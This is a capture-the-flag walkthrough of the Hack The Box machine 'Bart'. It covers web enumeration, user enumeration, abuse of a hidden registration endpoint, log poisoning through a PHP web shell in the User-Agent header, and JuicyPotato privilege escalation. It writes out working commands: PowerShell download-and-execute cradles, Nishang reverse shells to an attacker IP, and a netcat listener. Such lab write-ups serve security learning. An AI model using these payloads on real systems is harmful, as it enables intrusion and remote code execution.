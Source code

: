 ```yaml
---
layout: post
title: "Bart"
categories: HTB-Walkthrough
---
```


![bart1](/assets/img/bart/bart1.png)


Another HTB machine from TJNull's 'more challenging than OSCP' list.



<h3>Nmap</h3>

```
nmap -sV -Pn --min-rate 10000 -p- 10.10.10.81 |tee -a bart.txt
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
```

The web-site wouldn't load, adding forum.bart.htb to the /etc/hosts file fixed the problem.

![web1](/assets/img/bart/bart-web1.png)


Browsing the web-site we pick up some names of the team:
```
Samantha Brown
Daniel Simmons
Robert Hilton
```

The source reveals that the 'code artists' are not as accomplished as they present themselves.

![hpotter](/assets/img/bart/bart-harvey-potter.png)


Adding more users breaks the code?


<hr width="300" size="8">



<h3>FFUF</h3>


[ffuf](https://github.com/ffuf/ffuf) is a very quick fuzzer written in `go`.

```
ffuf -u http://bart.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 663
```

![ffuf](/assets/img/bart/bart-ffuf1.png)

We can pick out hits for 'forum' and 'monitor' among the results...adding `monitor.bart.htb` to the
/etc/hosts file and checking it out in firefox is encouraging enough to stop the ffuf process.

![monitor](/assets/img/bart/bart-monitor1.png) 



<hr width="300" size="8">




The usual login attempts don't work, but we can enumerate users with the 'forgot password' function.

I try 'admin' first.

![forgot](/assets/img/bart/bart-forgot-pass.png)


Remembering the user mentioned in the source comments (harvey potter) I try 'harvey' and get a positive result.

![harvey](/assets/img/bart/bart-harvey-passreset.png)


I try 'potter' as password, and it works!

![potter](/assets/img/bart/bart-server-monitor.png)


<hr width="300" size="8">


Browsing this app, we can identify the server being monitored.

![servers](/assets/img/bart/bart-servers1.png)


There's an internal chat server running, `http://internal-01.bart.htb`


![chat](/assets/img/bart/bart-chat1.png)

The `harvey/potter` credentials don't work here, it needs to be a minimum of 8 characters.

The url for the login form is:
```
http://internal-01.bart.htb/simple_chat/login_form.php
```

Running ffuf again against the new target yeilds more directories:

```
ffuf -u http://internal-01.bart.htb/simple_chat/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


I googled 'simple_chat php' and received a mound of examples, many similarly running php, html, css, ajax and sql.

All have a `register` facility, usually 'register.php' or 'register_form.php'; usually provided by a post request providing username and password.


Here's an example:

```
https://github.com/manumanoj0010/simple-chat-system/blob/master/register.php
```

![example](/assets/img/bart/bart-register-example.png)



<hr width="300" size="8">




Gobuster and ffuf don't find any 'register', so I start burp to see what I can find and do.

I attempt to login with 'admin/password123', then look at the request.

![burp-post](/assets/img/bart/bart-burp-post-login.png)

I send the request to the 'repeater', and manipulate some information.

I swap 'login.php' for 'register.php', and I replace the creds attempted with those to be registered,
and delete the 'submit' part.


![register](/assets/img/bart/bart-register-sh1n.png)



<h4>Success!!!</h4>

It worked, and I was able to login with 'sh1n0bi/password123'

![sh1n-in](/assets/img/bart/bart-sh1n-success.png)



We see an ongoing chat between harvey, bobby, and daniel.


<hr width="300" size="8">



Clicking the 'Log' link, 2 alert messages appear "Done" followed by "1".


<h3>LFI - Log Poisoning</h3>


Playing with the request to the log.php, The 'UserAgent' Header appears vulnerable; it is possible to inject commands
that reflect results in this file.

Replacing the UserAgent with a php system command reflects the system response.

```
<?php system(whoami);?>
```

![whoami](/assets/img/bart/bart-whoami.png)


We can take this a step further and inject a command variable 'cmd'
```
<?php system($_REQUEST['cmd']);?>
```

Now we can use this to execute various commands, and achieve a reverse shell.


[Nishang's powershell reverse tcp shell](https://github.com/samratashok/nishang) can be tailored by appending this command to the bottom.

```
Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.24 -Port 6969
```

We can call this script in the browser url with a powershell command:

```
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey&cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.24/shell.ps1%27)
```

Before its execution, make sure a python webserver is running to serve shell.ps1, and a netcat listener is running to catch the reverse shell.

```
python3 -m http.server 80
```
and
```
nc -nlvp 6969
```


The exploit works, and we have a shell.

![revshell](/assets/img/bart/bart-revshell.png)




<hr width="300" size="8">



<h3>Privilege Escalation</h3>


Rooting around the `inetpub` directory, we can find harvey's database creds.

![dbconnect](/assets/img/bart/bart-harvey-creds-dbconnect.png)




`systeminfo` shows that this is a 64bit Win10 pro machine,

![sysinfo](/assets/img/bart/bart-systeminfo.png)


<hr width="300" size="8">



For privesc this box had me foxed!

I intended to exploit it manually, but failed to find anything to leverage in the time I was willing to spend on the box.
So I got a meterpreter shell, and failed to use that effectively, even using the multi/recon/local_exploit_suggester.
I took the easy route and used JuicyPotato to get a system shell, and grab the flags.

Im going to make a mental note to come back and do this properly.


<hr width="300" size="8">

<h3>Juicy Potato</h3>




`jp command`
```
.\jp.exe -l 9001 -t * -p c:\boo\evil.bat -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

<hr width="300" size="8">


`contents of evil.bat`
```
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.24/shell2.ps1')
```

`copy evil.bat to target`
```
powershell iwr -uri http://10.10.14.24/evil.bat -outfile c:\boo\evil.bat
```

<hr width="300" size="8">


`appended command in shell2.ps1` (which is a copy of Nishang's shell.ps1)
```
Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.24 -Port 8989
```

<hr width="300" size="8">


`instructions`
```
1 set listener for 8989
2 set python3 -m http.server 80
3 copy shell.bat to target
4 use jp command
```

```
PS C:\users\h.potter> cat user.txt
62xxxxxxxxxxxxxxxxxxxxxxxxxxxx0f
```
```
PS C:\users\administrator\desktop> cat root.txt
00xxxxxxxxxxxxxxxxxxxxxxxxxxxxdc
```


<hr width="300" size="8">

:(
